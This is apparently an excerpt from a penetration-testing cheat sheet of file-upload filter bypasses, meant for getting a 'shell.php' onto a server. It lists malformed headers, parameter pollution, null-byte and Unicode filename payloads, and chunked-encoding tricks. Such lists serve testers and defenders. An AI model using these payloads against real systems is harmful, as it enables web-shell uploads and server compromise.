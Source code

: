 
## 1️⃣7️⃣ Malformed Headers in Upload (5)
Content-Disposition: form-data; name="file"; filename="shell.php  
Content-Disposition: form-data; filename="shell.php" name="file  
Missing Content-Type header  
Duplicate Content-Type header with different MIME  
MIME header split using CRLF injection  
**MIME-Type Related:** application/x-httpd-php, text/plain, image/jpeg, image/png

---

## 1️⃣8️⃣ HTTP Parameter Pollution in Upload (5)
filename="shell.php" filename="shell.jpg"  
filename="shell.jpg" filename="shell.php"  
filename*="UTF-8''shell.php"  
filename="shell.php?abc=1"  
filename="shell.php%00.jpg"  
**MIME-Type Related:** application/x-httpd-php, image/jpeg

---

## 1️⃣9️⃣ Chunked Transfer Encoding Tricks (5)
PHP hidden in second chunk  
Chunked request with early terminating chunk  
MIME headers split between chunks  
PHP payload obfuscated with chunk boundaries  
Overlapping chunk sizes causing parser confusion  
**MIME-Type Related:** application/x-httpd-php

---

## 2️⃣0️⃣ Rare Unicode Dot / Slash Bypasses (5)
.php%E2%80%AE.jpg  
.php%E2%80%AD.jpg  
%u002Ephp  
%u2215php  
%u2024php  
**MIME-Type Related:** application/x-httpd-php, image/jpeg
